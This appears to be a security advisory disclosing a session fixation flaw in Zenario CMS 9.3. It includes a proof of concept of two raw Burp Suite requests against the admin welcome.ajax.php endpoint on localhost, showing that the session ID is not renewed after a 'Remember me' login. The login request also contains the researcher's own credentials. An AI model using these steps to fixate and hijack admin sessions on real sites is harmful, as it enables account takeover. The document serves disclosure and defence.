




# Session Fixation

Description: In Zenario CMS user session identifier (authentication token) is issued to the browser prior to authentication but is not changed after user logout and login again into the application when "Remember me" option active. Failing to issue a new session ID following a successful login introduces the possibility for an attacker to set up a trap session on the device the victim is likely to login with.

The product(s): https://zenar.io

Affected product(s)/code base: https://github.com/TribalSystems/Zenario

Affected component(s): /Zenario-9.3.57595/zenario/admin/welcome.ajax.php

Proof of Concept:

1. Logout with current session to confirm the session is not valid

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=logout&get=%7B%22task%22%3A%22logout%22%2C%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 19
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?task=logout&cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_fill=true&_values=
```



To confirm, request change password for admin is not success.



2. Login as administrator with "Remember me".

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=&get=%7B%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 726
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_validate=true&_box={"tab"%3a"~login","tabs"%3a{"login"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"reset"%3a{"_was_hidden_before"%3atrue},"description"%3a{},"secure_connection"%3a{"_was_hidden_before"%3atrue},"not_secure_connection"%3a{},"username"%3a{"current_value"%3a"~leecybersec~40gmail~2Ecom"},"password"%3a{"current_value"%3a"~leecybersec"},"admin_login_captcha"%3a{"_was_hidden_before"%3atrue,"current_value"%3a""},"remember_me"%3a{"current_value"%3atrue},"admin_link"%3a{},"login"%3a{"pressed"%3atrue},"forgot"%3a{"pressed"%3afalse},"previous"%3a{"pressed"%3afalse}}},"forgot"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"description"%3a{},"email"%3a{"current_value"%3a""},"previous"%3a{},"reset"%3a{}}}},"path"%3a"~login"}
```



To confirm, request change password for admin is success.



Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)